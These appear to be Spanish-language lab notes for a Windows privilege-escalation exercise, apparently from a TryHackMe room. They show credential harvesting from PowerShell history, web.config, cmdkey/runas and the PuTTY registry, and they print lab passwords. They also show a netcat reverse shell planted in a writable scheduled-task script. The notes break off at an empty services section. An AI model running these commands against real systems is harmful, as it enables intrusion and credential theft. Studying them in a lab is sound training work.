 

## Historia del Powershell

```powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\thm-unpriv> cmdkey /list

Currently stored credentials:

    Target: Domain:interactive=WPRIVESC1\mike.katz
    Type: Domain Password
    User: WPRIVESC1\mike.katz

PS C:\Users\thm-unpriv> type .\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
ls
whoami
whoami /priv
whoami /group
whoami /groups
cmdkey /?
cmdkey /add:thmdc.local /user:julia.jones /pass:ZuperCkretPa5z
cmdkey /list
cmdkey /delete:thmdc.local
cmdkey /list
runas /?
cmdkey /list
type .\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
PS C:\Users\thm-unpriv>
```

## Configuración de IIS

```cmd
C:\>type \Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
                <add connectionStringName="LocalSqlServer" maxEventDetailsLength="1073741823" buffer="false" bufferMode="Notification" name="SqlWebEventProvider" type="System.Web.Management.SqlWebEventProvider,System.Web,Version=4.0.0.0,Culture=neutral,PublicKeyToken=b03f5f7f11d50a3a" />
                    <add connectionStringName="LocalSqlServer" name="AspNetSqlPersonalizationProvider" type="System.Web.UI.WebControls.WebParts.SqlPersonalizationProvider, System.Web, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a" />
    <connectionStrings>
        <add connectionString="Server=thm-db.local;Database=thm-sekure;User ID=db_admin;Password=098n0x35skjD3" name="THM-DB" />
    </connectionStrings>

C:\>
```

## Credenciales de Windows guardadas

```powershell
PS C:\Users\thm-unpriv> cmdkey /list

Currently stored credentials:

    Target: Domain:interactive=WPRIVESC1\mike.katz
    Type: Domain Password
    User: WPRIVESC1\mike.katz

PS C:\Users\thm-unpriv> runas /savecred /user:mike.katz cmd.exe
Attempting to start cmd.exe as user "WPRIVESC1\mike.katz" ...
PS C:\Users\thm-unpriv>
```

## Credencials guardades de Putty

```cmd
C:\>reg query HKCU\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s

HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\My%20ssh%20server
    ProxyExcludeList    REG_SZ
    ProxyDNS    REG_DWORD    0x1
    ProxyLocalhost    REG_DWORD    0x0
    ProxyMethod    REG_DWORD    0x0
    ProxyHost    REG_SZ    proxy
    ProxyPort    REG_DWORD    0x50
    ProxyUsername    REG_SZ    thom.smith
    ProxyPassword    REG_SZ    CoolPass2021
    ProxyTelnetCommand    REG_SZ    connect %host %port\n
    ProxyLogToTerm    REG_DWORD    0x1

End of search: 10 match(es) found.

C:\>
```

## Administrador de tareas
- Listamos tareas programadas en el sistema
```cmd
C:\>schtasks
```

- Listamos una tarea especifica y localizamos su carpeta de trabajo
```
C:\>schtasks /query /tn vulntask /fo list /v

Folder: \
HostName:                             WPRIVESC1
TaskName:                             \vulntask
Next Run Time:                        N/A
Status:                               Ready
Logon Mode:                           Interactive/Background
Last Run Time:                        12/5/2022 2:29:44 AM
Last Result:                          0
Author:                               WPRIVESC1\Administrator
Task To Run:                          C:\tasks\schtask.bat
```

- Vemos los permisos de la carpeta de trabajo, y darnos cuenta que `BUILTIN\Users` tiene Full Access
```
C:\>icacls c:\tasks\schtask.bat
c:\tasks\schtask.bat BUILTIN\Users:(I)(F)
                     NT AUTHORITY\SYSTEM:(I)(F)
                     BUILTIN\Administrators:(I)(F)

Successfully processed 1 files; Failed processing 0 files

C:\>
```
- Abrimos un purto en la máquina de Ataque
```bash
root@ip-10-10-197-81:~# nc -lnvp 4444
Listening on [0.0.0.0] (family 0, port 4444)
Connection from 10.10.210.122 49880 received!
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
wprivesc1\taskusr1

C:\Windows\system32>

```
. Modificamos el bat de la tarea y ejecutamos la tarea programada para enviar el revershell a la máquina de Ataque
```cmd
C:\>echo c:\tools\nc64.exe -e cmd.exe 10.10.197.81 4444 > c:\tasks\schtask.bat

C:\>schtasks /run /tn vulntask
SUCCESS: Attempted to run the scheduled task "vulntask".
```

## Servicios de Windows
- Mostrar los servicios que estan corriendo
```

```